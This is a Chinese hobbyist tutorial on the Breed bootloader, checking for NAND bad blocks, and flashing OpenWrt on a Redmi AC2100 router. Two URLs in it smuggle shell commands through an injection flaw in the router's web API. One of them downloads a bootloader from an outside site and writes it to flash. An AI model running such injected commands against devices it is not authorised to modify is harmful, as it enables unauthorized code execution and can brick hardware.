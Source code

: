 
### 固件 - Breed
Breed是一个适用于多种路由器的Bootloader（引导加载程序）：

- 功能特点：
  - 提供Web界面进行固件刷写
  - 支持固件备份和恢复
  - 可以修改MAC地址和其他参数
  - 具有故障恢复功能
  - 支持多种型号的路由器

- 优势：
  - 操作简单直观
  - 刷机失败的风险较低
  - 可以防止路由器变砖
  - 支持多种固件格式

!!! note "路由器坏块"
    路由器就像一台小电脑，它的存储器（类似于硬盘）有时会出现坏掉的区域，这些坏掉的区域叫做"坏块"。坏块主要是由于频繁更新系统、电压不稳定或者硬件本身老化等原因造成的。

    如果路由器出现坏块，可能会导致路由器无法正常开机、系统不稳定等问题。遇到这种情况，我们可以先用检测工具看看坏块的数量，如果坏块太多的话就需要考虑换新路由器了。平时使用时，尽量不要频繁更新系统，并且要使用稳定的电源，这样可以减少坏块产生的机会。

    ```html title="NAND坏块检查"
    http://192.168.31.1/cgi-bin/luci/;stok=CCCCCCCCCCC/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=%0A%5B%20-z%20%22%24(dmesg%20%7C%20grep%20ESMT)%22%20%5D%20%26%26%20B%3D%22Toshiba%22%20%7C%7C%20B%3D%22ESMT%22%0Auci%20set%20wireless.%24(uci%20show%20wireless%20%7C%20awk%20-F%20'.'%20'%2Fwl1%2F%20%7Bprint%20%242%7D').ssid%3D%22%24B%20%24(dmesg%20%7C%20awk%20'%2FBad%2F%20%7Bprint%20%245%7D')%22%0A%2Fetc%2Finit.d%2Fnetwork%20restart%0A
    ```

    运行代码后，你路由器的2.4g WiFi名称会改名成：比如  "ESMT"，"Toshiba"，"Toshiba 90 768"。 90和768是坏块。 如果ESMT或者Toshiba后面没数字，那恭喜你，没有坏块！！！



### **固件 - OpenWrt**

以Redmi AC2100为例，使用OpenWrt固件，配置IPv6 NAT。

<iframe src="//player.bilibili.com/player.html?isOutside=true&aid=786429754&bvid=BV1114y1X7TA&cid=1211226722&p=1&autoplay=0" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"></iframe>

第一步，上电，连接网线（可以连接宿舍里面的网口，也可以将LAN口和WAN口直接连接起来），等待启动。进入管理后台 `192.168.31.1`, 更改网络名称以及密码

第二步，在，刷入降级固件。等待5-7min，重新进入网络。发现固件已经降级。观察浏览器界面，可以发现url部分有 `stok=xxxxxxxx`字样，记录stok字段

第三步，刷入不死固件。

在浏览器中输入下面的url，将CCCCC部分替换成为自己的stok字段

```html title="不死固件刷入"
http://192.168.31.1/cgi-bin/luci/;stok=CCCCCCCCCCCCCCCC/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=%0Acd%20%2Ftmp%0Acurl%20-o%20B%20-O%20https%3A%2F%2Fbreed.hackpascal.net%2Fr1286%2520%255b2020-10-09%255d%2Fbreed-mt7621-xiaomi-r3g.bin%20-k%20-g%0A%5B%20-z%20%22%24(sha256sum%20B%20%7C%20grep%20242d42eb5f5aaa67ddc9c1baf1acdf58d289e3f792adfdd77b589b9dc71eff85)%22%20%5D%20%7C%7C%20mtd%20-r%20write%20B%20Bootloader%0A
```
